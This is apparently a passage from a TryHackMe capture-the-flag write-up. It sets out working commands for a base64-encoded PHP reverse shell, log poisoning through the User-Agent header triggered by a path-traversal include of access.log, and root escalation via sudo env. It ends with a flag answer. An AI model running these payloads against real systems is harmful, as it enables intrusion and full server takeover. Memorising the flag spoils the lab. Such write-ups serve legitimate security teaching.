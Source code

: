 Maybe we could try doing the request with python, might work (using `'''` strings)

Ok sooo... After poking around for way tooo long, I finally found a way to get a reverse shell. (Also, i'm stupid, was using the public ip for my reverse shell.. That's why i wasn't getting any connection....)
I listed all the binaries in the path and found `base64` binary. Then I realised I could base64 encode the payload and run it.

Couldn't make it work with the bash reverse shell syntax, of the other options, seems like only php is available
```
php -r '$sock=fsockopen("10.1.42.150",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Which is encoded to 
```
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEuNDIuMTUwIiw4ODg4KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc=
```

Then we want to run this on the server :
```
echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEuNDIuMTUwIiw4ODg4KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc= | base64 -d | sh
```

Our request look like this
```py
r = requests.get(url, headers={
        'User-Agent': f"<?php passthru('{shell_cmd}'); ?>"
})
```

We then activate it by showing the access.log file :
```py
r = requests.get(url, params={ 'view':'../../../var/lib/mlocate/../../../var/log/apache2/', 'ext':'/access.log'})
```

Annd we got a shell  !

Running sudo -l we get :
```
User www-data may run the following commands on 4b28a6a6685d:
    (root) NOPASSWD: /usr/bin/env
```

Oh well, gtfobins tell us we can simply run
```
sudo env /bin/sh
```

Andd we are root !
```
uid=0(root) gid=0(root) groups=0(root)
```

Let's find some flag.

Flag 3 is in `/root/flag3.txt`:
```
THM{D1ff3r3nt_3nv1ronments_874112}
```
